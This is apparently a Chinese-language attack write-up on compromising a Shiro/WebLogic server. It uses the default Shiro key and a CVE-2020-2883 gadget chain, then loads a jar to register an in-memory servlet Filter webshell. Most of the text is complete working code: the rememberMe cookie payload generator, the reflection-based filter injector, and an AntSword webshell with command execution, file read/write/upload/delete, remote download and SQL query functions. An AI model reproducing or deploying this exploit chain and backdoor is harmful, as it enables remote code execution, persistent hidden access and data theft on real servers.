遇到的目标shiro不存在可用的gadget，但是探测出他的key为默认的`kPH+bIxk5D2deZiIxcaaaA==`，通过404报错页面发现是WebLogic，通过CVE-2020-2883的gadget来成功RCE，但是不出网，没法反弹shell，而且是SpringMVC写jsp文件也访问不到，只能搞Filter内存马。


整理一下：

1. 反序列化的入口是shiro
2. gadget是2883
3. 2883通过URLClassLoader定义字节码
4. 字节码中写注册内存shell的代码
5. filter shell注册在weblogic的内存中


先解决shiro+2883 gadget利用的问题，其实就是把之前的2883生成的queue对象拿到shiro中进行AES base64加密就行了

```java
byte[] buf = Serializables.serializeToBytes(queue);
String key = "kPH+bIxk5D2deZiIxcaaaA==";
String rememberMe = EncryptUtil.shiroEncrypt(key, buf);
System.out.println(rememberMe);
```


要定义字节码必须先把字节码的类写出来，也就是注入内存shell的代码。

```java
package org.chabug.memshell;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Map;

public class InjectFilterShell {
    static {
        try {
            Class<?> executeThread = Class.forName("weblogic.work.ExecuteThread");
            Method m = executeThread.getDeclaredMethod("getCurrentWork");
            Object currentWork = m.invoke(Thread.currentThread());

            Field connectionHandlerF = currentWork.getClass().getDeclaredField("connectionHandler");
            connectionHandlerF.setAccessible(true);
            Object obj = connectionHandlerF.get(currentWork);

            Field requestF = obj.getClass().getDeclaredField("request");
            requestF.setAccessible(true);
            obj = requestF.get(obj);

            Field contextF = obj.getClass().getDeclaredField("context");
            contextF.setAccessible(true);
            Object context = contextF.get(obj);

            Field classLoaderF = context.getClass().getDeclaredField("classLoader");
            classLoaderF.setAccessible(true);
            ClassLoader cl = (ClassLoader) classLoaderF.get(context);

            Field cachedClassesF = cl.getClass().getDeclaredField("cachedClasses");
            cachedClassesF.setAccessible(true);
            Object cachedClass = cachedClassesF.get(cl);

            Method getM = cachedClass.getClass().getDeclaredMethod("get", Object.class);
            if (getM.invoke(cachedClass, "shell") == null) {
                byte[] codeClass = getBytesByFile("C:/Users/Administrator/Desktop/AntSwordFilterShell.class");
                Method defineClass = cl.getClass().getSuperclass().getSuperclass().getSuperclass().getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                Class evilFilterClass = (Class) defineClass.invoke(cl, codeClass, 0, codeClass.length);

                String evilName = "gameName" + System.currentTimeMillis();
                String filterName = "gameFilter" + System.currentTimeMillis();
                String[] url = new String[]{"/*"};

                Method putM = cachedClass.getClass().getDeclaredMethod("put", Object.class, Object.class);
                putM.invoke(cachedClass, filterName, evilFilterClass);
                Method getFilterManagerM = context.getClass().getDeclaredMethod("getFilterManager");
                Object filterManager = getFilterManagerM.invoke(context);

                Method registerFilterM = filterManager.getClass().getDeclaredMethod("registerFilter", String.class, String.class, String[].class, String[].class, Map.class, String[].class);
                registerFilterM.setAccessible(true);
                registerFilterM.invoke(filterManager, evilName, filterName, url, null, null, null);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static byte[] getBytesByFile(String pathStr) {
        File file = new File(pathStr);
        try {
            FileInputStream fis = new FileInputStream(file);
            ByteArrayOutputStream bos = new ByteArrayOutputStream(1000);
            byte[] b = new byte[1000];
            int n;
            while ((n = fis.read(b)) != -1) {
                bos.write(b, 0, n);
            }
            fis.close();
            byte[] data = bos.toByteArray();
            bos.close();
            return data;
        } catch (Exception e) {
            e.printStackTrace();
        }
        return null;
    }
}
```

编译打jar包之后，通过命令执行base64 -d写入，用于我们之后通过URLClassLoader加载这个jar包。因为代码在static块中，所以加载时会自动执行。


再来写通过2883来URLClassLoader我们之前jar包的代码

```java
package org.chabug.memshell;

import com.tangosol.util.ValueExtractor;
import com.tangosol.util.comparator.ExtractorComparator;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import org.chabug.util.EncryptUtil;
import org.chabug.util.Serializables;
import ysoserial.payloads.util.Reflections;

import java.lang.reflect.Field;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.PriorityQueue;

public class CVE_2020_2883_URLClassLoader {
    public static void main(String[] args) {
        try {
            ReflectionExtractor extractor1 = new ReflectionExtractor(
                    "getConstructor",
                    new Object[]{new Class[]{URL[].class}}
            );

            ReflectionExtractor extractor2 = new ReflectionExtractor(
                    "newInstance",
                    new Object[]{new Object[]{new URL[]{new URL("file:///C:/Users/Administrator/Desktop/tttt.jar")}}}
            );

            // load filter shell
            ReflectionExtractor extractor3 = new ReflectionExtractor(
                    "loadClass",
                    new Object[]{"org.chabug.memshell.InjectFilterShell"}
            );

            ReflectionExtractor extractor4 = new ReflectionExtractor(
                    "getConstructor",
                    new Object[]{new Class[]{}}
            );

            ReflectionExtractor extractor5 = new ReflectionExtractor(
                    "newInstance",
                    new Object[]{new Object[]{}}
            );


            ValueExtractor[] valueExtractors = new ValueExtractor[]{
                    extractor1,
                    extractor2,
                    extractor3,
                    extractor4,
                    extractor5,
            };
            Class clazz = ChainedExtractor.class.getSuperclass();
            Field m_aExtractor = clazz.getDeclaredField("m_aExtractor");
            m_aExtractor.setAccessible(true);

            ReflectionExtractor reflectionExtractor = new ReflectionExtractor("toString", new Object[]{});
            ValueExtractor[] valueExtractors1 = new ValueExtractor[]{
                    reflectionExtractor
            };

            ChainedExtractor chainedExtractor1 = new ChainedExtractor(valueExtractors1);

            PriorityQueue queue = new PriorityQueue(2, new ExtractorComparator(chainedExtractor1));
            queue.add("1");
            queue.add("1");
            m_aExtractor.set(chainedExtractor1, valueExtractors);

            Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
            queueArray[0] = URLClassLoader.class;
            queueArray[1] = "1";

            byte[] buf = Serializables.serializeToBytes(queue);
            String key = "kPH+bIxk5D2deZiIxcaaaA==";
            String rememberMe = EncryptUtil.shiroEncrypt(key, buf);
            System.out.println(rememberMe);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

通过URLClassLoader加载org.chabug.memshell.InjectFilterShell类，会自动执行static，static中会读取C:/Users/Administrator/Desktop/AntSwordFilterShell.class的字节码，然后通过定义字节码的形式注入AntSwordFilterShell类，AntSwordFilterShell也就是我们的Filter shell，代码如下：

```java
package org.chabug.memshell;

import javax.servlet.*;
import java.io.*;
import java.net.HttpURLConnection;
import java.net.URL;
import java.sql.*;
import java.text.SimpleDateFormat;

public class AntSwordFilterShell implements Filter{

    String Pwd = "th1sIsMySecretPassW0rd!";   //连接密码
    String encoder = ""; // default
    String cs = "UTF-8"; // 脚本自身编码

    String EC(String s) throws Exception {
        if (encoder.equals("hex") || encoder == "hex") return s;
        return new String(s.getBytes("ISO-8859-1"), cs);
    }

    String showDatabases(String encode, String conn) throws Exception {
        String sql = "show databases"; // mysql
        String columnsep = "\t";
        String rowsep = "";
        return executeSQL(encode, conn, sql, columnsep, rowsep, false);
    }

    String showTables(String encode, String conn, String dbname) throws Exception {
        String sql = "show tables from " + dbname; // mysql
        String columnsep = "\t";
        String rowsep = "";
        return executeSQL(encode, conn, sql, columnsep, rowsep, false);
    }

    String showColumns(String encode, String conn, String dbname, String table) throws Exception {
        String columnsep = "\t";
        String rowsep = "";
        String sql = "select * from " + dbname + "." + table + " limit 0,0"; // mysql
        return executeSQL(encode, conn, sql, columnsep, rowsep, true);
    }

    String query(String encode, String conn, String sql) throws Exception {
        String columnsep = "\t|\t"; // general
        String rowsep = "\r\n";
        return executeSQL(encode, conn, sql, columnsep, rowsep, true);
    }

    String executeSQL(String encode, String conn, String sql, String columnsep, String rowsep, boolean needcoluname)
            throws Exception {
        String ret = "";
        conn = (EC(conn));
        String[] x = conn.trim().replace("\r\n", "\n").split("\n");
        Class.forName(x[0].trim());
        String url = x[1] + "&characterEncoding=" + decode(EC(encode), encoder);
        Connection c = DriverManager.getConnection(url);
        Statement stmt = c.createStatement();
        ResultSet rs = stmt.executeQuery(sql);
        ResultSetMetaData rsmd = rs.getMetaData();

        if (needcoluname) {
            for (int i = 1; i <= rsmd.getColumnCount(); i++) {
                String columnName = rsmd.getColumnName(i);
                ret += columnName + columnsep;
            }
            ret += rowsep;
        }

        while (rs.next()) {
            for (int i = 1; i <= rsmd.getColumnCount(); i++) {
                String columnValue = rs.getString(i);
                ret += columnValue + columnsep;
            }
            ret += rowsep;
        }
        return ret;
    }

    String WwwRootPathCode(ServletRequest r) throws Exception {
        //  String d = r.getSession().getServletContext().getRealPath("/");
        String d = this.getClass().getClassLoader().getResource("/").getPath();
        String s = "";
        if (!d.substring(0, 1).equals("/")) {
            File[] roots = File.listRoots();
            for (int i = 0; i < roots.length; i++) {
                s += roots[i].toString().substring(0, 2) + "";
            }
        } else {
            s += "/";
        }
        return s;
    }

    String FileTreeCode(String dirPath) throws Exception {
        File oF = new File(dirPath), l[] = oF.listFiles();
        String s = "", sT, sQ, sF = "";
        java.util.Date dt;
        SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
        for (int i = 0; i < l.length; i++) {
            dt = new java.util.Date(l[i].lastModified());
            sT = fm.format(dt);
            sQ = l[i].canRead() ? "R" : "";
            sQ += l[i].canWrite() ? " W" : "";
            if (l[i].isDirectory()) {
                s += l[i].getName() + "/\t" + sT + "\t" + l[i].length() + "\t" + sQ + "\n";
            } else {
                sF += l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t" + sQ + "\n";
            }
        }
        return s += sF;
    }

    String ReadFileCode(String filePath) throws Exception {
        String l = "", s = "";
        BufferedReader br = new BufferedReader(new InputStreamReader(new FileInputStream(new File(filePath))));
        while ((l = br.readLine()) != null) {
            s += l + "\r\n";
        }
        br.close();
        return s;
    }

    String WriteFileCode(String filePath, String fileContext) throws Exception {
        BufferedWriter bw = new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(filePath))));
        bw.write(fileContext);
        bw.close();
        return "1";
    }

    String DeleteFileOrDirCode(String fileOrDirPath) throws Exception {
        File f = new File(fileOrDirPath);
        if (f.isDirectory()) {
            File x[] = f.listFiles();
            for (int k = 0; k < x.length; k++) {
                if (!x[k].delete()) {
                    DeleteFileOrDirCode(x[k].getPath());
                }
            }
        }
        f.delete();
        return "1";
    }

    void DownloadFileCode(String filePath, ServletResponse r) throws Exception {
        int n;
        byte[] b = new byte[512];
        r.reset();
        ServletOutputStream os = r.getOutputStream();
        BufferedInputStream is = new BufferedInputStream(new FileInputStream(filePath));
        os.write(("->|").getBytes(), 0, 3);
        while ((n = is.read(b, 0, 512)) != -1) {
            os.write(b, 0, n);
        }
        os.write(("|<-").getBytes(), 0, 3);
        os.close();
        is.close();
    }

    String UploadFileCode(String savefilePath, String fileHexContext) throws Exception {
        String h = "0123456789ABCDEF";
        File f = new File(savefilePath);
        f.createNewFile();
        FileOutputStream os = new FileOutputStream(f);
        for (int i = 0; i < fileHexContext.length(); i += 2) {
            os.write((h.indexOf(fileHexContext.charAt(i)) << 4 | h.indexOf(fileHexContext.charAt(i + 1))));
        }
        os.close();
        return "1";
    }

    String CopyFileOrDirCode(String sourceFilePath, String targetFilePath) throws Exception {
        File sf = new File(sourceFilePath), df = new File(targetFilePath);
        if (sf.isDirectory()) {
            if (!df.exists()) {
                df.mkdir();
            }
            File z[] = sf.listFiles();
            for (int j = 0; j < z.length; j++) {
                CopyFileOrDirCode(sourceFilePath + "/" + z[j].getName(), targetFilePath + "/" + z[j].getName());
            }
        } else {
            FileInputStream is = new FileInputStream(sf);
            FileOutputStream os = new FileOutputStream(df);
            int n;
            byte[] b = new byte[1024];
            while ((n = is.read(b, 0, 1024)) != -1) {
                os.write(b, 0, n);
            }
            is.close();
            os.close();
        }
        return "1";
    }

    String RenameFileOrDirCode(String oldName, String newName) throws Exception {
        File sf = new File(oldName), df = new File(newName);
        sf.renameTo(df);
        return "1";
    }

    String CreateDirCode(String dirPath) throws Exception {
        File f = new File(dirPath);
        f.mkdir();
        return "1";
    }

    String ModifyFileOrDirTimeCode(String fileOrDirPath, String aTime) throws Exception {
        File f = new File(fileOrDirPath);
        SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
        java.util.Date dt = fm.parse(aTime);
        f.setLastModified(dt.getTime());
        return "1";
    }

    String WgetCode(String urlPath, String saveFilePath) throws Exception {
        URL u = new URL(urlPath);
        int n = 0;
        FileOutputStream os = new FileOutputStream(saveFilePath);
        HttpURLConnection h = (HttpURLConnection) u.openConnection();
        InputStream is = h.getInputStream();
        byte[] b = new byte[512];
        while ((n = is.read(b)) != -1) {
            os.write(b, 0, n);
        }
        os.close();
        is.close();
        h.disconnect();
        return "1";
    }

    String SysInfoCode(ServletRequest r) throws Exception {
//        String d = r.getServletContext().getRealPath("/");
        String d = this.getClass().getClassLoader().getResource("/").getPath();
        String serverInfo = System.getProperty("os.name");
        String separator = File.separator;
        String user = System.getProperty("user.name");
        String driverlist = WwwRootPathCode(r);
        return d + "\t" + driverlist + "\t" + serverInfo + "\t" + user;
    }

    boolean isWin() {
        String osname = System.getProperty("os.name");
        osname = osname.toLowerCase();
        if (osname.startsWith("win"))
            return true;
        return false;
    }

    String ExecuteCommandCode(String cmdPath, String command) throws Exception {
        StringBuffer sb = new StringBuffer("");
        String[] c = {cmdPath, !isWin() ? "-c" : "/c", command};
        Process p = Runtime.getRuntime().exec(c);
        CopyInputStream(p.getInputStream(), sb);
        CopyInputStream(p.getErrorStream(), sb);
        return sb.toString();
    }

    String decode(String str) {
        byte[] bt = null;
        try {
            sun.misc.BASE64Decoder decoder = new sun.misc.BASE64Decoder();
            bt = decoder.decodeBuffer(str);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return new String(bt);
    }

    String decode(String str, String encode) {
        if (encode.equals("hex") || encode == "hex") {
            if (str == "null" || str.equals("null")) {
                return "";
            }
            StringBuilder sb = new StringBuilder();
            StringBuilder temp = new StringBuilder();
            try {
                for (int i = 0; i < str.length() - 1; i += 2) {
                    String output = str.substring(i, (i + 2));
                    int decimal = Integer.parseInt(output, 16);
                    sb.append((char) decimal);
                    temp.append(decimal);
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
            return sb.toString();
        } else if (encode.equals("base64") || encode == "base64") {
            byte[] bt = null;
            try {
                sun.misc.BASE64Decoder decoder = new sun.misc.BASE64Decoder();
                bt = decoder.decodeBuffer(str);
            } catch (IOException e) {
                e.printStackTrace();
            }
            return new String(bt);
        }
        return str;
    }

    void CopyInputStream(InputStream is, StringBuffer sb) throws Exception {
        String l;
        BufferedReader br = new BufferedReader(new InputStreamReader(is));
        while ((l = br.readLine()) != null) {
            sb.append(l + "\r\n");
        }
        br.close();
    }

    public void init(FilterConfig f) throws ServletException {
    }


    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        if (request.getParameter("size") != null) {
            response.setContentType("text/html");
            response.setCharacterEncoding(cs);
            StringBuffer sb = new StringBuffer("");
            try {
                String funccode = EC(request.getParameter(Pwd) + "");
                String z0 = decode(EC(request.getParameter("z0") + ""), encoder);
                String z1 = decode(EC(request.getParameter("z1") + ""), encoder);
                String z2 = decode(EC(request.getParameter("z2") + ""), encoder);
                String z3 = decode(EC(request.getParameter("z3") + ""), encoder);
                String[] pars = {z0, z1, z2, z3};
                sb.append("->|");

                if (funccode.equals("B")) {
                    sb.append(FileTreeCode(pars[1]));
                } else if (funccode.equals("C")) {
                    sb.append(ReadFileCode(pars[1]));
                } else if (funccode.equals("D")) {
                    sb.append(WriteFileCode(pars[1], pars[2]));
                } else if (funccode.equals("E")) {
                    sb.append(DeleteFileOrDirCode(pars[1]));
                } else if (funccode.equals("F")) {
                    DownloadFileCode(pars[1], response);
                } else if (funccode.equals("U")) {
                    sb.append(UploadFileCode(pars[1], pars[2]));
                } else if (funccode.equals("H")) {
                    sb.append(CopyFileOrDirCode(pars[1], pars[2]));
                } else if (funccode.equals("I")) {
                    sb.append(RenameFileOrDirCode(pars[1], pars[2]));
                } else if (funccode.equals("J")) {
                    sb.append(CreateDirCode(pars[1]));
                } else if (funccode.equals("K")) {
                    sb.append(ModifyFileOrDirTimeCode(pars[1], pars[2]));
                } else if (funccode.equals("L")) {
                    sb.append(WgetCode(pars[1], pars[2]));
                } else if (funccode.equals("M")) {
                    sb.append(ExecuteCommandCode(pars[1], pars[2]));
                } else if (funccode.equals("N")) {
                    sb.append(showDatabases(pars[0], pars[1]));
                } else if (funccode.equals("O")) {
                    sb.append(showTables(pars[0], pars[1], pars[2]));
                } else if (funccode.equals("P")) {
                    sb.append(showColumns(pars[0], pars[1], pars[2], pars[3]));
                } else if (funccode.equals("Q")) {
                    sb.append(query(pars[0], pars[1], pars[2]));
                } else if (funccode.equals("A")) {
                    sb.append(SysInfoCode(request));
                }
            } catch (Exception e) {
                sb.append("ERROR" + "://" + e.toString());
                e.printStackTrace();
            }
            sb.append("|<-");
            response.getWriter().print(sb.toString());
        } else {
            chain.doFilter(request, response);
        }
    }

    public void destroy() {
    }
}
```

现在就可以直接打了。先把org.chabug.memshell.InjectFilterShell打jar包

```bash
jar cvf tttt.jar org\chabug\memshell\InjectFilterShell.class
```



然后把tttt.jar和AntSwordFilterShell.class写入目标。最后用CVE_2020_2883_URLClassLoader生成rememberMe Cookie打目标就行了。


URLClassLoader -> tttt.jar -> InjectFilterShell static -> defineClass byte -> AntSwordFilterShell


演示图：

